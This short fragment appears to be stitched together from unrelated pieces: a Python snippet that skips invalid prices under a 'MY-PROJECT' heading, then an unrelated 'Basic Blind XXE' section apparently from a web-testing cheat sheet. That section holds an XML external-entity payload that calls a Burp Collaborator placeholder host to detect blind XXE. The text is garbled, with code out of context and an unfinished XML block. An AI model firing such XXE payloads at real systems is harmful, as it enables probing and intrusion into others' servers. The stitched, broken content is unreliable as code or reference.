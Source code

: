 # MY-PROJECT
if price < 0:
    print(f"Warning: Skipping invalid price {price}")
    continue
    ### Basic Blind XXE
The easiest way to test for a blind XXE is to try to load a remote resource such as a Burp Collaborator.
```xml
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
]>
